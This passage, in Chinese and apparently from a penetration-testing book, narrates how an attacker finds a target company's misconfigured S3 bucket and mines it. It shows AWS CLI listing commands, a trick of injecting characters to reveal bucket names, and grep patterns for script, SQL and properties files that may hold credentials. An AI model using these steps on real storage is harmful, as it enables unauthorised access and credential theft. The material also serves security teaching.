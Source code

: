 AWS 结合这四个设置的规则来决定是否接受一个传入的操作。主控这些设置的是名为*Block public access*的总开关，当它开启时，会禁用所有公共访问，即使其中某个设置明确授权了公共访问。

复杂吗？那真是轻描淡写了。我鼓励你创建一个 AWS 账户，探索 S3 桶的复杂性，培养识别和滥用过于宽松 S3 设置的正确反应。

### 检查桶

回到我们的桶列表。我们浏览了一遍，除了*misc.mxrads.com*外，其他都无法访问，奇怪的是，*misc.mxrads.com*返回了一个空白页面。没有出现错误肯定是个好兆头。让我们使用 AWS 命令行进一步探查。首先，我们安装 AWS 命令行接口（CLI）：

```
root@Point1:~/# **sudo apt install awscli**
root@Point1:~/# **aws configure**
# Enter any valid set of credentials to unlock the CLI.
# You can use your own AWS account, for instance.
```

AWS CLI 不接受 S3 URL，因此我们需要弄清楚*misc.mxrads.com*背后的真实桶名。大多数时候，这个过程非常简单，只需要检查域名的 CNAME 记录，这个案例中返回的是 mxrads-misc.s3-website.eu-west-1.amazonaws.com。这告诉我们桶的名称是 mxrads-misc。如果检查 CNAME 不奏效，我们需要更多的技巧，比如在 URL 中注入特殊字符如`%C0`，或者附加无效的参数，试图让 S3 显示包含桶名称的错误页面。

拿到这个桶名后，我们可以利用 AWS CLI 的强大功能。首先，通过命令列出桶内所有对象，并将结果保存到一个文本文件中：

```
root@Point1:~/# **aws s3api list-objects-v2 --bucket mxrads-misc > list_objects.txt**
root@Point1:~/# **head list_objects.txt**
{ "Contents": [{
     "Key": "Archive/",
     "LastModified": "2015-04-08T22:01:48.000Z",
      "Size": 0,

 "Key": "Archive/_old",
     "LastModified": "2015-04-08T22:01:48.000Z",
     "Size": 2969,

     "Key": "index.html",
     "LastModified": "2015-04-08T22:01:49.000Z",
     "Size": 0,
    },
`--snip--`
```

我们得到了很多对象——太多了，无法手动检查。为了确切知道有多少个对象，我们使用 grep 来查找"Key"参数：

```
root@Point1:~/# **grep '"Key"' list_objects.txt |wc -l**
425927
```

万无一失！我们在这个单一的桶里存储了超过 40 万个文件。这已经算是一次非常不错的发现了。在对象列表中，注意到 S3 桶根目录下有一个空的*index.html*文件；S3 桶可以被设置为充当静态文件的网站托管，比如 JavaScript 代码、图片和 HTML 文件，而这个*index.html*文件就是导致我们之前运行 URL 时看到空白页面的原因。

是时候进行一些简易的数据挖掘了。让我们使用正则表达式查找 SQL 脚本、bash 文件、备份档案、JavaScript 文件、配置文件、VirtualBox 快照——任何可能为我们提供有价值凭证的内容：

```
# We extract the filenames in the "Key" parameters:
root@Point1:~/# **grep '"Key"' list_objects | sed 's/[",]//g' > list_keys.txt**

root@Point1:~/# **patterns='\.sh$|\.sql$|\.tar\.gz$\.properties$|\.config$|\.tgz$'**

root@Point1:~/# **egrep $patterns list_keys.txt**
  Key: debug/360-ios-safari/deploy.sh
 Key: debug/ias-vpaidjs-ios/deploy.sh
  Key: debug/vpaid-admetrics/deploy.sh
  Key: latam/demo/SiempreMujer/nbpro/private/private.properties
  Key: latam/demo/SiempreMujer/nbpro/project.properties
  Key: demo/indesign-immersion/deploy-cdn.sh
  Key: demo/indesign-immersion/deploy.sh
  Key: demo/indesign-mobile-360/deploy.sh
`--snip--`
```